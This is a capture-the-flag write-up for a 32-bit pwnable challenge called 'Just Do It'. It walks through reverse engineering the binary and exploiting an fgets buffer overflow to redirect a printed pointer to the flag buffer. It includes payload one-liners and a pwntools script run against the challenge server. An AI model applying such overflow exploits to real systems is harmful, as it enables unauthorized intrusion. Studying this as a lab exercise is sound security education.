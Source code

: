 # Just Do It!

Unfortunately because of a Calc 3 Test, I had to wait untill the Wenesday after the ctf to solve this.

Let's take a look at the binary:
```
$	file just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa 
just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=cf72d1d758e59a5b9912e0e83c3af92175c6f629, not stripped
```

```
$	pwn checksec just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa 
[*] '/Hackery/west/doit/just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

So we can see that it is a 32 bit binary, with a non executable stack. Let's try to run it.

```
$	./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa 
file open error.
: No such file or directory
```

So it is complainning about a file opening error, probably trying to open a file that isn't there. Let's look at the main function in IDA:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char input; // [sp+8h] [bp-20h]@7
  FILE *stream; // [sp+18h] [bp-10h]@1
  char *output_message; // [sp+1Ch] [bp-Ch]@1

  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 2, 0);
  output_message = failed_message;
  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    perror("file open error.\n");
    exit(0);
  }
  if ( !fgets(flag, 48, stream) )
  {
    perror("file read error.\n");
    exit(0);
  }
  puts("Welcome my secret service. Do you know the password?");
  puts("Input the password.");
  if ( !fgets(&input, 32, stdin) )
  {
    perror("input error.\n");
    exit(0);
  }
  if ( !strcmp(&input, PASSWORD) )
    output_message = success_message;
  puts(output_message);
  return 0;
}
```

So we can see that the file it is trying to open is `flag.txt`. We can also see that this binary will essentially prompt you for a password,  and if it is the right password it will print in a logged in message. If not it will print an authentication error. Let's see what the value of `PASSWORD` is, so we can know what we need to set our input equal to to pass the check:

```
87C8 aP@ssw0rd       db 'P@SSW0RD',0         ; DATA XREF: .data:PASSWORDo
```

So we can see that the string it is checking for is `P@SSW0RD`.  Now since our input is being scanned in through an fgets call, a newline character `0x0a` will be appended to the end. So in order to pass the check we will need to put a null byte after `P@SSW0RD`.

```
$	python -c 'print "P@SSW0RD" + "\x00"' | ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa 
Welcome my secret service. Do you know the password?
Input the password.
Correct Password, Welcome!
```

So we passed the check, however that doesn't solve the challenge. We can see that with the fgets call, we can input 32 bytes worth of data into `input`. Let's see how many bytes `input` can hold:
```
-00000020 input           db ?
-0000001F                 db ? ; undefined
-0000001E                 db ? ; undefined
-0000001D                 db ? ; undefined
-0000001C                 db ? ; undefined
-0000001B                 db ? ; undefined
-0000001A                 db ? ; undefined
-00000019                 db ? ; undefined
-00000018                 db ? ; undefined
-00000017                 db ? ; undefined
-00000016                 db ? ; undefined
-00000015                 db ? ; undefined
-00000014                 db ? ; undefined
-00000013                 db ? ; undefined
-00000012                 db ? ; undefined
-00000011                 db ? ; undefined
-00000010 stream          dd ?                    ; offset
-0000000C output_message  dd ?                    ; offset
-00000008                 db ? ; undefined
-00000007                 db ? ; undefined
-00000006                 db ? ; undefined
-00000005                 db ? ; undefined
-00000004 var_4           dd ?
+00000000  s              db 8 dup(?)
```
 
 So we can see that it can hold 16 bytes worth of data (0x20 - 0x10 = 16). So we effictively have a buffer overflow vulnerabillity with the fgets call to `input`. However it appears that we can't reach the `eip` register to get RCE. However we can reach `output_message` which is printed with a puts call, right before the function returns. So we can print whatever we want. That makes this code look really helpful:

```
  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    perror("file open error.\n");
    exit(0);
  }
  if ( !fgets(flag, 48, stream) )
  {
    perror("file read error.\n");
    exit(0);
  }
```
  
  So we can see here that after it opens the `flag.txt` file, it scans in 48 bytes worth of data into `flag`. This is interesting because if we can find the address of `flag`, then we should be able to overwrite the value of `output_message` with that address and then it should print out the contents of `flag`, which should be the flag.
  
```
  .bss:0804A080 ; char flag[48]
.bss:0804A080 flag            db 30h dup(?)           ; DATA XREF: main+95o
.bss:0804A080 _bss            ends
.bss:0804A080
```
  
  So here we can see that `flag` lives in the bss, with the address `0x0804a080`. There are 20 bytes worth of data between `input` and `output_message` (0x20 - 0x0c = 20). So we can form a payload with 20 null bytes, followed by the address of `flag`:
  
```
  python -c 'print "\x00"*20 + "\x80\xa0\x04\x08"' | ./just_do_it-56d11d5466611ad671ad47fba3d8bc5a5140046a2a28162eab9c82f98e352afa 
Welcome my secret service. Do you know the password?
Input the password.
flag{gottem_boyz}
```

So we were able to read the contents of `flag.txt` with our exploit. Let's write an exploit to use the same exploit against the server they have with the challenge running to get the flag. Here is the python code:

```
#Import pwntools
from pwn import *

#Create the remote connection to the challenge
target = remote('pwn1.chal.ctf.westerns.tokyo', 12482)

#Print out the starting prompt
print target.recvuntil("password.\n")

#Create the payload
payload = "\x00"*20 + p32(0x0804a080)

#Send the payload
target.sendline(payload)

#Drop to an interactive shell, so we can read everything the server prints out
target.interactive()
```

Now let's run it:

```
$	python exploit.py 
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 12482: Done
Welcome my secret service. Do you know the password?
Input the password.

[*] Switching to interactive mode
TWCTF{pwnable_warmup_I_did_it!}

[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to pwn1.chal.ctf.westerns.tokyo port 12482
```

Just like that, we captured the flag!

 
 
